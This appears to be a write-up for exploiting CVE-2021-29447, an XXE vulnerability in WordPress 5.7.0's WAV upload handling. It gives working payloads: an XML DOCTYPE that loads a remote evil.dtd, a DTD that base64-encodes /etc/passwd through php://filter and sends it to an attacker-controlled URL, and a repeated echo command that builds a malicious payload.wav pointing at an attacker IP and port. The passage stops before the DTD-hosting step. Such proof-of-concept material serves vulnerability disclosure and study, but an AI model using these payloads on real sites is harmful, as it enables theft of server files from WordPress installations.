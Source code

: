 ```bash
<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://example.com/evil.dtd'>%remote;%init;%trick;]>
```

Now, this XML file will request for DTD file where we can define to read the internal files of the victim server and give the output to our own server.

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://example.com/?p=%file;'>" >
```

`php://filter/read=convert.base64-encode/resource=/etc/passwd`. The PHP wrapper `php://` makes us able to access various I/O streams and `php://filter` is a *kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening*. Thanks to it, we can convert to base64 the content of a file (in the example above `/etc/passwd`) and assign the result to the `%file` entity. Now we can send to our server the content of `%file` and exfiltrate it.

Now we have to create a Wav file along with an XML malicious payload. We can check out the list of [file signatures from Wikipedia.](https://en.wikipedia.org/wiki/List_of_file_signatures)

![Untitled](images/Untitled.png)

After researching online, found the missing bytes for the wave file and simply created this Wav payload.

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<AttackerIP>:<PORT>/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

## Proof Of Concept (POC)

Log in as a low-privileged user who has the file upload ability/permission to exploit this vulnerability.

![WordPress version 5.7.0](images/2022-11-26_16_39_45-VirtualBoxVM.png)

WordPress version 5.7.0

![Permission of File Upload](images/Untitled%201.png)

Permission of File Upload

Now let’s create a wave file having XML metadata that requests a DTD file from an attacker.

![Untitled](images/Untitled%202.png)

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<AttackerIP>:<PORT>/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

We have to create a DTD file to ask for the server’s file data.


[def]: Videos/CVE-2021-29447.mp4
[def2]: https://i.imgur.com/vKb2F1B.png
[def3]: Videos/CVE-2021-29447.mp4